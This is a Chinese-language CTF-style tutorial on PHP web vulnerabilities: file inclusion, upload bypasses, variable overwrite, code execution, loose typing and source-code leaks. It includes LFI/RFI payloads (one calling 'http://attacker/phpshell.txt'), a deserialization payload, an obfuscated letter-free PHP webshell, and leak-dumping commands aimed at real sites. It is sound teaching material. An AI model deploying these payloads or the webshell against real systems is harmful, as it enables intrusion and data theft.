

[EN](./php.md) | [ZH](./php-zh.md)
## 文件包含

常见的导致文件包含的函数有：

- PHP：`include()`，`include_once()`，`require()`，`require_once()`，`fopen()`，`readfile()` 等
- JSP Servlet：`ava.io.File()`，`java.io.FileReader()` 等
- ASP：`includefile`，`includevirtual` 等

当 PHP 包含一个文件时，会将该文件当做 PHP 代码执行，而不会在意文件时什么类型。

### 本地文件包含

本地文件包含，Local File Inclusion，LFI。

```php
<?php
$file = $_GET['file'];
if (file_exists('/home/wwwrun/'.$file.'.php')) {
  include '/home/wwwrun/'.$file.'.php';
}
?>
```

上述代码存在本地文件包含，可用 %00 截断的方式读取 `/etc/passwd` 文件内容。

- `%00` 截断

  ```
  ?file=../../../../../../../../../etc/passwd%00
  ```

  需要 `magic_quotes_gpc=off`，PHP 小于 5.3.4 有效。

- 路径长度截断

  ```
  ?file=../../../../../../../../../etc/passwd/././././././.[…]/./././././.
  ```

  Linux 需要文件名长于 4096，Windows 需要长于 256。

- 点号截断

  ```
  ?file=../../../../../../../../../boot.ini/………[…]…………
  ```

  只适用 Windows，点号需要长于 256。

### 远程文件包含

远程文件包含，Remote File Inclusion，RFI。

```php
<?php
if ($route == "share") {
  require_once $basePath . "/action/m_share.php";
} elseif ($route == "sharelink") {
  require_once $basePath . "/action/m_sharelink.php";
}
```

构造变量 `basePath` 的值。

```
/?basePath=http://attacker/phpshell.txt?
```

最终的代码执行了

```php
require_once "http://attacker/phpshell.txt?/action/m_share.php";
```

问号后的部分被解释为 URL 的 querystring，这也是一种「截断」。

- 普通远程文件包含

  ```
  ?file=[http|https|ftp]://example.com/shell.txt
  ```

  需要 `allow_url_fopen=On` 并且 `allow_url_include=On` 。

- 利用 PHP 流 input

  ```
  ?file=php://input
  ```

  需要 `allow_url_include=On` 。

- 利用 PHP 流 filter

  ```
  ?file=php://filter/convert.base64-encode/resource=index.php
  ```

  需要 `allow_url_include=On` 。

- 利用 data URIs

  ```
  ?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=
  ```

  需要 `allow_url_include=On` 。

- 利用 XSS 执行

  ```
  ?file=http://127.0.0.1/path/xss.php?xss=phpcode
  ```

  需要 `allow_url_fopen=On`，`allow_url_include=On` 并且防火墙或者白名单不允许访问外网时，先在同站点找一个 XSS 漏洞，包含这个页面，就可以注入恶意代码了。

## 文件上传

文件上传漏洞是指用户上传了一个可执行脚本文件，并通过此文件获得了执行服器端命令的能力。在大多数情况下，文件上传漏洞一般是指上传 WEB 脚本能够被服务器解析的问题，也就是所谓的 webshell 问题。完成这一攻击需要这样几个条件，一是上传的文件能够这 WEB 容器执行，其次用户能从 WEB 上访问这个文件，最后，如果上传的文件被安全检查、格式化、图片压缩等功能改变了内容，则可能导致攻击失败。

### 绕过上传检查

- 前端检查扩展名

  抓包绕过即可。

- `Content-Type` 检测文件类型

  抓包修改 `Content-Type` 类型，使其符合白名单规则。

- 服务端添加后缀

  尝试 `%00` 截断。

- 服务端扩展名检测

  利用解析漏洞。

- Apache 解析

  `phpshell.php.rar.rar.rar.rar` 因为 Apache 不认识 `.rar` 这个文件类型，所以会一直遍历后缀到 `.php`，然后认为这是一个 PHP 文件。

- IIS 解析

  IIS 6 下当文件名为 `abc.asp;xx.jpg` 时，会将其解析为 `abc.asp`。

- PHP CGI 路径解析

  当访问 `http://www.a.com/path/test.jpg/notexist.php` 时，会将 `test.jpg` 当做 PHP 解析， `notexist.php` 是不存在的文件。此时 Nginx 的配置如下

  ```nginx
  location ~ \.php$ {
    root html;
    fastcgi_pass 127.0.0.1:9000;
    fastcgi_index index.php;
    fastcgi_param SCRIPT_FILENAME /scripts$fastcgi_script_name;
    include fastcgi_param;
  }
  ```

- 其他方式

  后缀大小写、双写、特殊后缀如 `php5` 等，修改包内容的大小写过 WAF 等。

## 变量覆盖

### 全局变量覆盖

变量如果未被初始化，且能够用户所控制，那么很可能会导致安全问题。

```ini
register_globals=ON
```

示例

```php
<?php
echo "Register_globals: " . (int)ini_get("register_globals") . "<br/>";

if ($auth) {
  echo "private!";
}
?>
```

当 `register_globals=ON` 时，提交 `test.php?auth=1`，`auth` 变量将自动得到赋值。

### `extract()` 变量覆盖

`extract()` 函数能够将变量从数组导入到当前的符号表，其定义为

```
int extract ( array $var_array [, int $extract_type [, string $prefix ]] )
```

其中，第二个参数指定函数将变量导入符号表时的行为，最常见的两个值是 `EXTR_OVERWRITE` 和 `EXTR_SKIP`。

当值为 `EXTR_OVERWRITE` 时，在将变量导入符号表的过程中，如果变量名发生冲突，则覆盖所有变量；值为 `EXTR_SKIP` 则表示跳过不覆盖。若第二个参数未指定，则在默认情况下使用 `EXTR_OVERWRITE`。

```php
<?php
$auth = "0";
extract($_GET);

if ($auth == 1) {
  echo "private!";
} else {
  echo "public!";
}
?>
```

当 `extract()` 函数从用户可以控制的数组中导出变量时，可能发生变量覆盖。

### `import_request_variables` 变量覆盖

```
bool import_request_variables (string $types [, string $prefix])
```

`import_request_variables` 将 GET、POST、Cookies 中的变量导入到全局，使用这个函数只用简单地指定类型即可。

```php
<?php
$auth = "0";
import_request_variables("G");

if ($auth == 1) {
  echo "private!";
} else {
  echo "public!";
}
?>
```

`import_request_variables("G")` 指定导入 GET 请求中的变量，提交 `test.php?auth=1` 出现变量覆盖。

### `parse_str()` 变量覆盖

```
void parse_str ( string $str [, array &$arr ])
```

`parse_str()` 函数通常用于解析 URL 中的 querystring，但是当参数值可以被用户控制时，很可能导致变量覆盖。

```php
// var.php?var=new  变量覆盖
$var = "init";
parse_str($_SERVER["QUERY_STRING"]);
print $var;
```

与 `parse_str()` 类似的函数还有 `mb_parse_str()`。

## 命令执行

### 直接执行代码

PHP 中有不少可以直接执行代码的函数。

```php
eval();
assert();
system();
exec();
shell_exec();
passthru();
escapeshellcmd();
pcntl_exec();
......
```

### `preg_replace()` 代码执行

`preg_replace()` 的第一个参数如果存在 `/e` 模式修饰符，则允许代码执行。

```php
<?php
$var = "<tag>phpinfo()</tag>";
preg_replace("/<tag>(.*?)<\/tag>/e", "addslashes(\\1)", $var);
?>
```

如果没有 `/e` 修饰符，可以尝试 %00 截断。

### `preg_match` 代码执行

`preg_match` 执行的是匹配正则表达式，如果匹配成功，则允许代码执行。

```
<?php
include 'flag.php';
if(isset($_GET['code'])){
    $code = $_GET['code'];
    if(strlen($code)>40){
        die("Long.");
    }
    if(preg_match("/[A-Za-z0-9]+/",$code)){
        die("NO.");
    }
    @eval($code);
}else{
    highlight_file(__FILE__);
}
//$hint =  "php function getFlag() to get flag";
?>
```

这道题是 `xman` 训练赛的时候，梅子酒师傅出的一道题。这一串代码描述是这样子，我们要绕过 `A-Z`、`a-z`、`0-9` 这些常规数字、字母字符串的传参，将非字母、数字的字符经过各种变换，最后能构造出 `a-z` 中任意一个字符，并且字符串长度小于 `40` 。然后再利用 `PHP` 允许动态函数执行的特点，拼接出一个函数名，这里我们是 `getFlag`，然后动态执行该代码即可。

那么，我们需要考虑的问题是如何通过各种变换，使得我们能够去成功读取到 `getFlag` 函数，然后拿到 `webshell` 。

在理解这个之前，我们首先需要大家了解的是 `PHP` 中异或 `^` 的概念。

我们先看一下下面这段代码：

```
<?php
    echo "A"^"?";
?>
```

运行结果如下：


我们可以看到，输出的结果是字符 `~`。之所以会得到这样的结果，是因为代码中对字符 `A` 和字符 `?` 进行了异或操作。在 `PHP` 中，两个变量进行异或时，先会将字符串转换成 `ASCII` 值，再将 `ASCII` 值转换成二进制再进行异或，异或完，又将结果从二进制转换成了 `ASCII` 值，再将 `ASCII` 值转换成字符串。异或操作有时也被用来交换两个变量的值。

比如像上面这个例子

`A` 的 `ASCII` 值是 `65` ，对应的二进制值是 `01000001`

`?` 的ASCII值是 `63` ，对应的二进制值是 `00111111`

异或的二进制的值是 `‭01111110‬` ，对应的 `ASCII` 值是 `126` ，对应的字符串的值就是 `~` 了

我们都知道， `PHP` 是弱类型的语言，也就是说在 `PHP` 中我们可以不预先声明变量的类型，而直接声明一个变量并进行初始化或赋值操作。正是由于 `PHP` 弱类型的这个特点，我们对 `PHP` 的变类型进行隐式的转换，并利用这个特点进行一些非常规的操作。如将整型转换成字符串型，将布尔型当作整型，或者将字符串当作函数来处理，下面我们来看一段代码：

```
<?php
    function B(){
        echo "Hello Angel_Kitty";
    }
    $_++;
    $__= "?" ^ "}";
    $__();
?>
```

代码执行结果如下：



我们一起来分析一下上面这段代码：

1、`$_++; ` 这行代码的意思是对变量名为 `"_"` 的变量进行自增操作，在 `PHP` 中未定义的变量默认值 `null` ，`null==false==0` ，我们可以在不使用任何数字的情况下，通过对未定义变量的自增操作来得到一个数字。

2、`$__="?" ^ "}"; ` 对字符 `?` 和 `}` 进行异或运算，得到结果 `B` 赋给变量名为 `__` (两个下划线)的变量

3、`$ __ (); ` 通过上面的赋值操作，变量 `$__` 的值为 `B` ，所以这行可以看作是 `B()` ，在 `PHP` 中，这行代码表示调用函数 `B` ，所以执行结果为 `Hello Angel_Kitty` 。在 `PHP` 中，我们可以将字符串当作函数来处理。

看到这里，相信大家如果再看到类似的 `PHP` 后门应该不会那么迷惑了，你可以通过一句句的分析后门代码来理解后门想实现的功能。

我们希望使用这种后门创建一些可以绕过检测的并且对我们有用的字符串，如 `_POST` ， `system` ， `call_user_func_array `，或者是任何我们需要的东西。

下面是个非常简单的非数字字母的 `PHP` 后门：

```
<?php
    @$_++; // $_ = 1
    $__=("#"^"|"); // $__ = _
    $__.=("."^"~"); // _P
    $__.=("/"^"`"); // _PO
    $__.=("|"^"/"); // _POS
    $__.=("{"^"/"); // _POST 
    ${$__}[!$_](${$__}[$_]); // $_POST[0]($_POST[1]);
?>
```

在这里我说明下， `.=` 是字符串的连接，具体参看 `PHP` 语法

我们甚至可以将上面的代码合并为一行，从而使程序的可读性更差，代码如下：

```
$__=("#"^"|").("."^"~").("/"^"`").("|"^"/").("{"^"/");
```

我们回到 `xman` 训练赛的那题来看，我们的想法是通过构造异或来去绕过那串字符，那么我们该如何构造这个字串使得长度小于 `40` 呢？

我们最终是要读取到那个 `getFlag` 函数，我们需要构造一个 `_GET` 来去读取这个函数，我们最终构造了如下字符串：


可能很多小伙伴看到这里仍然无法理解这段字符串是如何构造的吧，我们就对这段字符串进行段分析。

#### 构造 `_GET` 读取

首先我们得知道 `_GET` 由什么异或而来的，经过我的尝试与分析，我得出了下面的结论：

```
<?php
    echo "`{{{"^"?<>/";//_GET
?>
```

这段代码一大坨是啥意思呢？因为40个字符长度的限制，导致以前逐个字符异或拼接的webshell不能使用。  
这里可以使用php中可以执行命令的反引号 `` ` `` 和 `Linux` 下面的通配符 `?`

- `?` 代表匹配一个字符
- `` ` 表示执行命令
- `" ` 对特殊字符串进行解析

由于 `?` 只能匹配一个字符，这种写法的意思是循环调用，分别匹配。我们将其进行分解来看：

```
<?php
    echo "{"^"<";
?>
```

输出结果为：


```
<?php
    echo "{"^">";
?>
```

输出结果为：


```
<?php
    echo "{"^"/";
?>
```

输出结果为：


所以我们可以知道， `_GET` 就是这么被构造出来的啦！

#### 获取 `_GET` 参数

我们又该如何获取 `_GET` 参数呢？咱们可以构造出如下字串：

```
<?php
    echo ${$_}[_](${$_}[__]);//$_GET[_]($_GET[__])
?>
```

根据前面构造的来看， `$_` 已经变成了 `_GET` 。顺理成章的来讲， `$_ = _GET` 。我们构建 `$_GET[__]` 是为了要获取参数值。

#### 传入参数

此时我们只需要去调用 `getFlag` 函数获取 `webshell` 就好了，构造如下：

```
<?php
    echo $_=getFlag;//getFlag
?>
```

所以把参数全部连接起来，就可以了。


结果如下：


于是我们就成功地读取到了flag！

### 动态函数执行

用户自定义的函数可以导致代码执行。

```php
<?php
$dyn_func = $_GET["dyn_func"];
$argument = $_GET["argument"];
$dyn_func($argument);
?>
```

### 反引号命令执行

```php
<?php
echo `ls -al`;
?>
```

### Curly Syntax

PHP 的 Curly Syntax 也能导致代码执行，它将执行花括号间的代码，并将结果替换回去。

```php
<?php
$var = "aaabbbccc ${`ls`}";
?>
```

```php
<?php
$foobar = "phpinfo";
${"foobar"}();
?>
```

### 回调函数

很多函数都可以执行回调函数，当回调函数用户可控时，将导致代码执行。

```php
<?php
$evil_callback = $_GET["callback"];
$some_array = array(0,1,2,3);
$new_array = array_map($evil_callback, $some_array);
?>
```

攻击 payload

```
http://www.a.com/index.php?callback=phpinfo
```

### 反序列化

如果 `unserialize()` 在执行时定义了 `__destruct()` 或 `__wakeup()` 函数，则有可能导致代码执行。

```php
<?php
class Example {
  var $var = "";
  function __destruct() {
    eval($this->var);
  }
}
unserialize($_GET["saved_code"]);
?>
```

攻击 payload

```
http://www.a.com/index.php?saved_code=O:7:"Example":1:{s:3:"var";s:10:"phpinfo();";}
```

## PHP 特性

### 数组

```php
<?php
$var = 1;
$var = array();
$var = "string";
?>
```

php 不会严格检验传入的变量类型，也可以将变量自由的转换类型。

比如在 `$a == $b` 的比较中

```php
$a = null; 
$b = false; //为真 
$a = ''; 
$b = 0; //同样为真
```

然而，PHP 内核的开发者原本是想让程序员借由这种不需要声明的体系，更加高效的开发，所以在几乎所有内置函数以及基本结构中使用了很多松散的比较和转换，防止程序中的变量因为程序员的不规范而频繁的报错，然而这却带来了安全问题。

```php
0=='0' //true
0 == 'abcdefg' //true
0 === 'abcdefg' //false
1 == '1abcdef' //true
```

### 魔法 Hash

```php
"0e132456789"=="0e7124511451155" //true
"0e123456abc"=="0e1dddada" //false
"0e1abc"=="0"  //true
```

在进行比较运算时，如果遇到了 `0e\d+` 这种字符串，就会将这种字符串解析为科学计数法。所以上面例子中 2 个数的值都是 0 因而就相等了。如果不满足 `0e\d+` 这种模式就不会相等。

### 十六进制转换

```php
"0x1e240"=="123456" //true
"0x1e240"==123456 //true
"0x1e240"=="1e240" //false
```

当其中的一个字符串是 `0x` 开头的时候，PHP 会将此字符串解析成为十进制然后再进行比较，`0x1240` 解析成为十进制就是 123456，所以与 `int` 类型和 `string` 类型的 123456 比较都是相等。

### 类型转换

常见的转换主要就是 `int` 转换为 `string`，`string` 转换为 `int`。

`int` 转 `string`

```php
$var = 5;
方式1：$item = (string)$var;
方式2：$item = strval($var);
```

`string` 转 `int`：`intval()` 函数。

对于这个函数，可以先看 2 个例子。

```php
var_dump(intval('2')) //2
var_dump(intval('3abcd')) //3
var_dump(intval('abcd')) //0
```

说明 `intval()` 转换的时候，会将从字符串的开始进行转换知道遇到一个非数字的字符。即使出现无法转换的字符串， `intval()` 不会报错而是返回 0。

同时，程序员在编程的时候也不应该使用如下的这段代码：

```php
if(intval($a)>1000) {
 mysql_query("select * from news where id=".$a)
}
```

这个时候 `$a` 的值有可能是 `1002 union`。

### 内置函数的参数的松散性

内置函数的松散性说的是，调用函数时给函数传递函数无法接受的参数类型。解释起来有点拗口，还是直接通过实际的例子来说明问题，下面会重点介绍几个这种函数。

**md5()**

```php
$array1[] = array(
 "foo" => "bar",
 "bar" => "foo",
);
$array2 = array("foo", "bar", "hello", "world");
var_dump(md5($array1)==var_dump($array2)); //true
```

PHP 手册中的 md5（）函数的描述是 `string md5 ( string $str [, bool $raw_output = false ] )`，`md5()` 中的需要是一个 string 类型的参数。但是当你传递一个 array 时，`md5()` 不会报错，只是会无法正确地求出 array 的 md5 值，这样就会导致任意 2 个 array 的 md5 值都会相等。

**strcmp()**

`strcmp()` 函数在 PHP 官方手册中的描述是 `intstrcmp ( string $str1 ， string $str2 )`，需要给 `strcmp()` 传递 2 个 `string` 类型的参数。如果 `str1` 小于 `str2`，返回 -1，相等返回 0，否则返回 1。`strcmp()` 函数比较字符串的本质是将两个变量转换为 ASCII，然后进行减法运算，然后根据运算结果来决定返回值。

如果传入给出 `strcmp()` 的参数是数字呢？

```php
$array=[1,2,3];
var_dump(strcmp($array,'123')); //null,在某种意义上null也就是相当于false。
```

**switch()**

如果 `switch()` 是数字类型的 case 的判断时，switch 会将其中的参数转换为 int 类型。如下：

```php
$i ="2abc";
switch ($i) {
case 0:
case 1:
case 2:
 echo "i is less than 3 but not negative";
 break;
case 3:
 echo "i is 3";
}
```

这个时候程序输出的是 `i is less than 3 but not negative` ，是由于 `switch()` 函数将 `$i` 进行了类型转换，转换结果为 2。

**in_array()**

在 PHP 手册中， `in_array()` 函数的解释是 `bool in_array ( mixed $needle , array $haystack [, bool $strict = FALSE ] )` ,如果strict参数没有提供，那么 `in_array` 就会使用松散比较来判断 `$needle` 是否在 `$haystack` 中。当 strince 的值为 true 时， `in_array()` 会比较 needls 的类型和 haystack 中的类型是否相同。

```php
$array=[0,1,2,'3'];
var_dump(in_array('abc', $array)); //true
var_dump(in_array('1bc', $array)); //true
```

可以看到上面的情况返回的都是 true，因为 `'abc'` 会转换为 0， `'1bc'` 转换为 1。

`array_search()` 与 `in_array()` 也是一样的问题。

## 寻找源代码备份

### hg 源码泄露

`hg init` 时会产生 `.hg` 文件。

[利用工具 dvcs-ripper](https://github.com/kost/dvcs-ripper)

### Git 源码泄露

`.git` 目录内有代码的变更记录等文件，如果部署时该目录下的文件可被访问，可能会被利用来恢复源代码。

```
/.git
/.git/HEAD
/.git/index
/.git/config
/.git/description
```

[GitHack](https://github.com/lijiejie/GitHack)

```shell
python GitHack.py http://www.openssl.org/.git/
```

[GitHacker（可恢复完整 Git 仓库）](https://github.com/WangYihang/GitHacker)

```shell
python GitHacker.py http://www.openssl.org/.git/
```

### `.DS_Store` 文件泄露

Mac OS 中会包含有 `.DS_Store` 文件，包含文件名等信息。

[利用工具 ds＿store＿exp](https://github.com/lijiejie/ds_store_exp)

```shell
python ds_store_exp.py http://hd.zj.qq.com/themes/galaxyw/.DS_Store

hd.zj.qq.com/
└── themes
    └── galaxyw
        ├── app
        │   └── css
        │       └── style.min.css
        ├── cityData.min.js
        ├── images
        │   └── img
        │       ├── bg-hd.png
        │       ├── bg-item-activity.png
        │       ├── bg-masker-pop.png
        │       ├── btn-bm.png
        │       ├── btn-login-qq.png
        │       ├── btn-login-wx.png
        │       ├── ico-add-pic.png
        │       ├── ico-address.png
        │       ├── ico-bm.png
        │       ├── ico-duration-time.png
        │       ├── ico-pop-close.png
        │       ├── ico-right-top-delete.png
        │       ├── page-login-hd.png
        │       ├── pic-masker.png
        │       └── ticket-selected.png
        └── member
            ├── assets
            │   ├── css
            │   │   ├── ace-reset.css
            │   │   └── antd.css
            │   └── lib
            │       ├── cityData.min.js
            │       └── ueditor
            │           ├── index.html
            │           ├── lang
            │           │   └── zh-cn
            │           │       ├── images
            │           │       │   ├── copy.png
            │           │       │   ├── localimage.png
            │           │       │   ├── music.png
            │           │       │   └── upload.png
            │           │       └── zh-cn.js
            │           ├── php
            │           │   ├── action_crawler.php
            │           │   ├── action_list.php
            │           │   ├── action_upload.php
            │           │   ├── config.json
            │           │   ├── controller.php
            │           │   └── Uploader.class.php
            │           ├── ueditor.all.js
            │           ├── ueditor.all.min.js
            │           ├── ueditor.config.js
            │           ├── ueditor.parse.js
            │           └── ueditor.parse.min.js
            └── static
                ├── css
                │   └── page.css
                ├── img
                │   ├── bg-table-title.png
                │   ├── bg-tab-say.png
                │   ├── ico-black-disabled.png
                │   ├── ico-black-enabled.png
                │   ├── ico-coorption-person.png
                │   ├── ico-miss-person.png
                │   ├── ico-mr-person.png
                │   ├── ico-white-disabled.png
                │   └── ico-white-enabled.png
                └── scripts
                    ├── js
                    └── lib
                        └── jquery.min.js

21 directories, 48 files
```

### 网站备份文件

管理员备份网站文件后错误地将备份放在 Web 目录下。

常见的后缀名：

```
.rar
.zip
.7z
.tar
.tar.gz
.bak
.txt
```

### SVN 泄露

敏感文件：

```
/.svn
/.svn/wc.db
/.svn/entries
```

[dvcs-ripper](https://github.com/kost/dvcs-ripper)

```shell
perl rip-svn.pl -v -u http://www.example.com/.svn/
```

[Seay - SVN](http://tools.40huo.cn/#!web.md#源码泄露)

### WEB-INF / web.xml 泄露

WEB-INF 是 Java Web 应用的安全目录，web.xml 中有文件的映射关系。

WEB-INF 主要包含一下文件或目录：

- `/WEB-INF/web.xml` ：Web 应用程序配置文件，描述了 servlet 和其他的应用组件配置及命名规则。
- `/WEB-INF/classes/` ：含了站点所有用的 class 文件，包括 servlet class 和非 servlet class，他们不能包含在。jar 文件中。
- `/WEB-INF/lib/` ：存放 web 应用需要的各种 JAR 文件，放置仅在这个应用中要求使用的 jar 文件，如数据库驱动 jar 文件。
- `/WEB-INF/src/` ：源码目录，按照包名结构放置各个 java 文件。
- `/WEB-INF/database.properties` ：数据库配置文件。

通过找到 web.xml 文件，推断 class 文件的路径，最后直接 class 文件，在通过反编译 class 文件，得到网站源码。 一般情况，jsp 引擎默认都是禁止访问 WEB-INF 目录的，Nginx 配合 Tomcat 做均衡负载或集群等情况时，问题原因其实很简单，Nginx 不会去考虑配置其他类型引擎（Nginx 不是 jsp 引擎）导致的安全问题而引入到自身的安全规范中来（这样耦合性太高了），修改 Nginx 配置文件禁止访问 WEB-INF 目录就好了：

```nginx
location ~ ^/WEB-INF/* { deny all; } # 或者return 404; 或者其他！
```

### CVS 泄露

```
http://url/CVS/Root 返回根信息
http://url/CVS/Entries 返回所有文件的结构
```

取回源码

```shell
bk clone http://url/name dir
```

### 参考文献

- [记一次拿webshell踩过的坑(如何用PHP编写一个不包含数字和字母的后门)](https://www.cnblogs.com/ECJTUACM-873284962/p/9433641.html)
